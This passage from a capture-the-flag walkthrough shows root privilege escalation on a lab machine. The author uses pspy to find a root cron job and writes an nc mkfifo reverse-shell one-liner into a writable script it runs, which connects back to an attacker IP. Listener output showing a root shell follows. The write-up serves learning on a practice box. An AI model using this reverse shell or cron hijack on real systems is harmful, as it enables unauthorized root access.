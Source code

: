 There is clearly something we need to do with this so I check to see if there are hidden cron jobs running with pspy after uploading the binary to the /tmp directory and making it executable:

`pspy64`

```
2022/10/22 17:42:01 CMD: UID=0    PID=20258  | /bin/bash /home/lennie/scripts/planner.sh
2022/10/22 17:43:01 CMD: UID=0    PID=20276  | /bin/bash /home/lennie/scripts/planner.sh
```

Sure enough once a minute a cron job runs that planner.sh. So we should be able to pur a reverse shell in our /etc/print.sh and have it connect back to us as root.

<br>

## Root

I run the following to put a standard nc mkfifo reverse shell into our /etc/print.sh file and set a listener up on my system to catch it:

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.0.242 4444 >/tmp/f" > /etc/print.sh`

```
listening on [any] 4444 ...
connect to [10.6.0.242] from (UNKNOWN) [10.10.172.52] 40396
bash: cannot set terminal process group (20369): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~#
```

And we have root!

Looking in the root directory shows us the root.txt flag:

`wc -c /root/root.txt`

```
38 /root/root.txt
```

<br>

With that we've completed this CTF!
